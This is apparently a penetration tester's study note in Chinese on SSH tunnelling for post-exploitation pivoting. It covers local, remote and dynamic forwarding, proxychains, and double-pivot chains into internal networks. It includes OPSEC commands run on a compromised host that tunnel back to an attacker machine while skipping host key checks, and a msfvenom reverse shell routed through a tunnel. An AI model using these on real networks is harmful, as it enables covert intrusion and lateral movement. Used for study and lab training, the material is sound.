 ```yaml
---
tags:
  - 渗透/后渗透
---
```

## SSH原理概述

> https://www.ramkitech.com/2012/04/how-to-do-ssh-tunneling-port-forwarding.html  
> 在terminal中，当我们敲入ssh someone@private-server.org时，terminal application将调用ssh client，ssh client则连接到private-server.org机器的22端口(由ssh server监听).然后client和server交换Identitiy,public key, cipher suite info并且在server端创建一个新的shell process.随后client和server之间就建立了安全的通道了,这样之后的所有command及response都通过这个secure channel来传递。
> 比如当ssh连接建立后，我执行ls命令。那么ls命令将由ssh client加密封装通过该通道发往server。server则解密取出命令'ls'并且在shell(该shell就是ssh链接创建时所创建的)中执行,所有的输出将被redirect到该隧道的另一端-ssh client上,最后ssh client则解密取出output消息打印在terminal application上。

- ssh 可以同时有许多channels（Shell、Data、X11 Forwarding等），每个channel代表一个服务。
- 通常情况下我们就是使用的 shell channel（可以用 `-N` 忽略创建），但ssh隧道模式下我们用的 data channel。

## 3种类型

### 命令总结

`ssh -L/R [bind_address:]sourcePort:forwardToHost:onPort remoteHost`

- L/R指示 `sourcePort` 是在localhost端（执行命令的host）还是remoteHost
	- 注意：`sourcePort` 是指L/R（本地/远端）要开启监听的端口。例如-R的话是指在远端开启，本地是不会开启端口监听的。
- `forwardToHost:onPort` 不必局限在2台机器之间（参考）
- 注意可以定义多个 -L/R


#### OPSEC

![[Pasted image 20240817183916.png]]

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

- 在Ajla上用www-data用户执行远程端口转发
- 防止在目标机器上保存我们kali的主机公钥
- 为www-data用户生成ssh密钥，并加一些限制（srcIP、仅端口转发、不分配伪终端），将公钥加入kali的 `authorized_keys` 文件：`from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3Nz<SNIP>nin www-data@ajla`


#### 有用选项

-**fNT**Cg

- -f：后台进程，不占用当前shell，只有认证时会到前台。（似乎即使Meterpreter进程死了，ssh隧道依旧生效）
- -N：静默连接（只当作隧道。即不创建shell channel，不登录到远程shell、不发出ssh命令）
- -T：远程主机上不分配伪终端。**通常和N连用**，不过分配了也没事，只是有点没必要。（扩展：本机连接远程远程主机的交互实际上是在与远程主机的伪终端交互）
- -C：压缩。减少带宽，但是可能增加CPU负荷（因为要加解压缩）
- -g：GatewayPorts 关键字，我们可以通过指定它使得其他机器也能使用这个本地端口转发。允许远端host连接本地用于转发的端口。本地端口转发绑定的是 lookback 接口（即上面 `bind_address` 的部分，不开启GatewayPorts配置的话，这里默认localhost），这意味着只有 localhost 或者 127.0.0.1 才能使用本机的端口转发 , 其他机器发起的连接只会得到“ connection refused. ”。【如果不加这个参数，只允许本地主机使用这个端口转发。更安全】


### 1.动态端口转发

- 动态：不必为每个目标创建本地监听端口，一个动态端口应付所有目标——比本地端口转发简约。
	- 服务器检查数据包并决定我们需要将数据包发送到哪里

```shell-session
ssh -D 9050 ubuntu@10.129.15.50
```
![[Pasted image 20240817182226.png]]{ width='600' }

就是在SSH Client前设置个（SOCKS）代理server，并绑定local port 9050。随后用登陆ubuntu并建立ssh connection。

之后在浏览器配置SOCKSv5代理就可以用浏览器访问ubuntu甚至是内网（因为命令在ubuntu解析，ubuntu有内网路由）的资源了。

#### proxychains

> [!note] 现在用proxychains-ng

配置代理IP：`sudo vim /etc/proxychains4.conf`
使用proxychains：`proxychains4 remmina`


也可以在 `~/.ssh/ssh_config` 里添加配置方便操作：
```
Host dest   
	Hostname 192.168.56.10   
	Port 22   
	User ubuntu   
	IdentityFile ~/.ssh/id_rsa
	DynamicForward localhost:5963
```

运行 `ssh dest` 之后，ssh会在本地绑定一个支持SOCKS协议的端口（此处为5963）。


### 2.本地端口转发

```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
![[Pasted image 20240817183232.png]]{ width='600' }

相当于本地ssh client充当代理。Attack的ssh client的监听绑定了1234端口，所以所有到1234的流量都会转发到ssh client，然后流向远端。


进行连接的命令其实会根据remote port的服务进行选择。如可以这样：

- 转发ftp端口：`ftp localhost:localport`
- 转发rdp端口：`rdesktop localhost:localport`


### 3.远程端口转发

```shell-session
ssh -R <PivotHost>:8080:0.0.0.0:8000 ubuntu@<Target> -vN
```
![[Pasted image 20240817183638.png]]{ width='600' }

上图的例子中，Victim执行的msfvenom payload是回连 `Ubuntu的8080`，handler监听 `0.0.0.0:8000`。  
反弹shell回连Ubuntu后通过SSH隧道转发到本地8000端口，得以成功远控。


#### SSH Reverse Dynamic Forward

![[Pasted image 20240817185238.png]]{ width='500' }



## For Windows

### 建立ssh服务端

- WinSSHD： [https://www.bitvise.com/ssh-server](https://www.bitvise.com/ssh-server)
- OpenSSH： [https://sshwindows.sourceforge.net/](https://sshwindows.sourceforge.net/)

关于Proxifier： [https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)


> [!note] 或者在cmd使用[[SSH Tunneling#SSH Reverse Dynamic Forward|远程动态转发]]！




## 高级运用

### Double Pivoting

> https://theyhack.me/Proxychains-Double-Pivoting/

![[Pasted image 20240818001741.png]]{ width='500' }

目标：从attack访问destbox。  
可以想象box1为WebSrv，box2为FileSrv，destbox为DC/特权PC。  
假设box1连接box2、box2连接destbox可以简单实现（因为都属于内网）。  
于是attack无法正向连接box1是通常的情况，所以需要box1反连attack。
#### reverse tunneling

```bash
# 1. attack:2222 ==== jumpbox1:22
they@jumpbox1.local:~$ ssh -fN -R 2222:127.0.0.1:22 <you>@attack.local
# 2. attack上的动态端口8888，连接到jumpbox1
they@attack.local:~$ ssh -fN -D 8888 <jumpbox1-user>@127.0.0.1 -p 2222
## 1&2 in oneline
they@jumpbox1.local:~$ ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -fN -D 8888 127.0.0.1 -p 2222"

# 连接到box1之后重复执行动态隧道的步骤——即前文假设可简单实现的内容
they@jumpbox1.local:~$ ssh -fN -D 9999 user@jumpbox2.local

# 攻击机的proxychains.conf配置
<SNIP>
[ProxyList]
socks4  127.0.0.1 8888
socks4  127.0.0.1 9999 # For box1 to box2

# 访问destbox
they@attack.local:~$ proxychains4 -f proxychains.conf curl http://destbox.local
```

- 建议配置 `jumpbox1-user` 的有限制免密连接：[restrict accordingly to just tunnels](https://unix.stackexchange.com/questions/14312/how-to-restrict-an-ssh-user-to-only-allow-ssh-tunneling/14313#14313)


#### 内网隧道的另一实现思路

> https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6

按该文思路，针对前一节的“假设box1连接box2、box2连接destbox可以简单实现”的命令：
```bash
# 1. box2上建立动态隧道，但是SSH服务端在box2的loopback
they@jumpbox2.local:~$ ssh -D 10000 <jumpbox1-user>@127.0.0.1
# 2. box1:9999 ==== box2:10000
they@jumpbox2.local:~$ ssh -R 9999:127.0.0.1:10000 <jumpbox1-user>@jumpbox1.local

# 在攻击机上
# 正向连接box1：配置127.0.0.1:8888，然后用proxychains即可。
# 从box1反向隧道：参照前一节。
```
